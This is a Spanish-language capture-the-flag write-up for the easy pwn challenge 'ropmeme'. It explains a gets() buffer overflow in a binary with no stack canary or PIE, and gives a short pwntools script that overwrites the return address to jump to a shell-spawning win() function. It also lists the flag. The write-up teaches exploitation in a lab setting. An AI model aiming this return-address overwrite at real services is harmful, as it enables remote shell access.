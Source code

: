 # Nombre: `ropmeme`
### Dificultad: `facil`
### Categoría: `pwn`
### Autor: [c4ebt](https://c4ebt.github.io/)
### Flag: `DCCTF{pwn_c0ld3st_c4t3g0ry}`

### Descripcion:
Recuperamos este binario de los tiempos en que Intro a la Progra se hacía en C y lo pusimos a correr en [hostname]:5001. Un montón de novatos programando en un lenguaje sin memory safety; que podría salir mal?

### Hint 1:
`man gets`

### Hint 2:
```
Alister: oye Cae el nombre de uno de tus desafíos tiene un typo
Cae: no es un typo ;)
```

### Solución:
Writeup muy superficial. Los conceptos que están por detrás del desafío son más complejos y las técnicas más profundas.
El source usa gets() para leer a un buffer de 64 bytes. gets() está deprecated, tal como indica su manpage: "Never use this function. Never use gets().  Because it is impossible to tell without knowing the data in advance how many characters gets() will read, and because gets() will continue to store characters past the end of the buffer, it is extremely dangerous to use.  It has been used to break computer security". Entonces, se tiene un buffer overflow en la call a gets. Usando la herramienta checksec se puede ver que el binario no tiene ni Canary ni PIE, solo NX, por lo que se debería poder explotar con un ROP. Haciendo un reversing mínimo se puede encontrar la función win(), que hace la syscall 0x3b (execve) con una shell como argumento, por lo que podemos llamarla para obtener una shell remota. Finalmente, el exploit usando pwntools queda así:

```python
from pwn import *

context.log_level = 'DEBUG'
#p = process("./ropmeme")
p = remote("localhost", 5001)

junk = "A"*72
payload = junk + p64(0x00401176)

p.sendline(payload)
p.interactive()
```
